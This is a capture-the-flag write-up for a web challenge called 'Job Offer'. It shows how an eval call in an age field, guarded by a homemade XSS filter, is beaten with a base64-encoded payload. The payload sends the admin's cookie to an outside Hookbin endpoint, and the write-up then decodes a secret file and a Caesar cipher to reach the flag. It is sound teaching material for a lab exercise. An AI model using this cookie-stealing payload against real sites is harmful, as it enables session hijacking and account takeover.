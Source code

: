 # Job Offer

On exploring the site we know that there are routes to submit a site for review, login, signup and apply for a job.

The submit site route just accepts email and password just submits it. Also it says that they won't see it soon so there is no use.

Next in job application route we see there is an option to see employer's view and to submit directly. But on the employer's page we see that they are calculating age from date of birth. Also they are using a custom xss filter to remove unsafe html. But they are using `eval` to calculate age. We can exploit this feautre since we can control the string to be supplied to eval. But we cannot directly steal cookies as there is a xss filter.
On exploring we notice that we can encode our payload to base64 and perform xss.

We can make use of [Hookbin](https://hookbin.com/) to create free endpoint to capture our request.

Now we have to encode our payload

```javascript
document.location = `https://hookb.in/ENDPOINT?c=` + document.cookie;
```

We are using single backticks( \` ) instead of quotations( " ). This is done to ensure that the quotes of `eval` are not escaped in javascript code.

Encode the string using:

```javascript
btoa("document.location=`https://hookb.in/ENDPOINT?c=`+document.cookie");
```

We need to decode this before it has to be executed by `eval`. For that we use:

```javascript
eval(atob("BASE64 ENCODED TEXT"));
```

Now modify the html of date input to `type="text"` and supply the value as:

```javascript
eval(atob("BASE64 ENCODED TEXT")) - 1 - 1
```
After this we get the message that our application will soon be seen. When we refresh the Hookbin page we notice that we have got the jwt cookie of admin user. We now copy the cookie and visit the site again.  
There we see a link to a secret file. On viewing the file we can identify it is base64 encoded. On decoding it we get:
```python
import base64

f = open("encodedSec.txt","r")

base64_str = f.read()

base64_bytes = base64_str.encode("ascii")

while True:
    try:
        base64_bytes = base64.b64decode(base64_bytes)
    except:
        print(base64_bytes.decode("ascii"))
        break
```
Output
```
Robot has the key to unlock the Ceaser's secret:
sfnb_{wuvn_jqane_gumq_ujv_bayneqo}
```
This is a keyded Casar's cipher. The key is with the robot. We can find the key on the robots.txt file. On decoding with the secret we find the flag.
```
pctf_{dont_write_your_own_filters}
```
